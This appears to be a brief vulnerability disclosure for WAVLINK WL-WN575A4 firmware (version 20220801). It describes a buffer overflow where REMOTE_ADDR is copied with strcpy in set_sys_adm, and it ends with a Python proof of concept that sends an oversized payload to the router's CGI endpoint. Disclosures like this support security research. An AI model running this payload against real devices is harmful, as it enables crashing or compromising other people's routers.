 # buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in adm.cgi/set_sys_adm

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](1.png)

get value from REMOTE_ADDR ,and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'REMOTE_ADDR': payload})
``` 
